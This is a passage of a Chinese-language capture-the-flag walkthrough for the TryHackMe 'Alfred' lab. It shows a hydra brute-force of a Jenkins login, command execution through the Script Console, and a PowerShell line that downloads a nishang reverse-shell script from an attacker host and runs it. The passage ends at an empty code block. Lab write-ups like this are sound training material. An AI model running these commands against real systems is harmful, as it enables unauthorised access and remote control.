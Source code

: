 + 使用hydra爆破：

   ```hydra -L name.txt -P pass.txt target_ip -s target_port http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&form=%2F&Submit=Sign+in:loginError"```

   ```
   ┌──(kali㉿kali)-[~/桌面/THM/Alfred]
   └─$ hydra -L wordlist.txt -P wordlist.txt 10.10.251.108 -s 8080 http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&form=%2F&Submit=Sign+in:loginError"
   ···
   [DATA] attacking http-post-form://10.10.251.108:8080/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&form=%2F&Submit=Sign+in:loginError
   [STATUS] 600.00 tries/min, 600 tries in 00:01h, 123304 to do in 03:26h, 16 active
   [8080][http-post-form] host: 10.10.251.108   login: admin   password: admin
   ···
   ```

   得到用户名和密码：``admin：admin``

+ 如果条件允许，可以尝试BP工具爆破，也可尝试常用弱密码admin之类

+ 登录：

   ![Alt text](/style/image/image-279.png)

## 目标Jenkins配置错误

1. 进入Manage Jenkins（管理 Jenkins）—Script Console（脚本控制台）页面

   ![Alt text](/style/image/image-280.png)

2. 在脚本控制台页面输入：println "whoami".execute().text

   ![Alt text](/style/image/image-281.png)

3. 后台执行代码

   ![Alt text](/style/image/image-282.png)

4. 可以修改并使用如下payload，它将在目标机上被执行，能够将（来自于攻击机的）反向shell脚本下载到目标机上并完成脚本执行操作：

   ```powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port```

   注意这里第一个port为攻击机上开启的web服务端口，第二个port为攻击机设置的Netcat监听端口

## 获取shell

+ 思路：

   1. 攻击机上使用命令创建一个简易的Python HTTP服务器，这能使存放在攻击机上的反向shell脚本可以被目标机访问并下载
   
   2. 攻击机设置监听端口
   
   2. 在Jenkins后台中找到一个功能点，以便我们能够运行相关命令来下载攻击机上的反向shell脚本并执行该脚本，找到命令执行页面的具体步骤如下——先进入Jenkins后台，然后进入project选项卡（页面中间）、configure选项卡（左侧页面），定位到Build页面(选择Execute Windows batch command)以便我们执行命令，在Build界面输入命令，先点击应用并保存，再点击Build now即可。

+ 具体操作：

   1. 攻击机下载 [nishang](https://github.com/samratashok/nishang)

      ``sudo apt install nishang``

   2. 进入nishang/Shells目录（/usr/share/nishang/Shells）并开启简易http服务：

      ```
   ```